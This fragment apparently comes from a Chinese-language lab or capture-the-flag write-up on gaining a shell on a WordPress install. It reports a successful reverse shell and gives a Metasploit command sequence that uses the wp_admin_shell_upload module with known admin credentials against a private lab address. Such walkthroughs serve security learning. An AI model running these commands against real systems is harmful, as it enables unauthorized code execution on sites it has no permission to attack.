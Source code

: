 ![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Y94YiNEtwGtbbqyQp3bnR25ingwcGwwOHtvsf8Hfv4k.png?raw=true)

成功反弹。



知道了账号密码，路径。使用msf也可以getshell (法2)

```
search wordpress admin
use exploit/unix/webapp/wp_admin_shell_upload
set PASSWORD adam14
set RHOSTS 10.0.2.15
set USERNAME admin
set TARGETURI /wordpress
```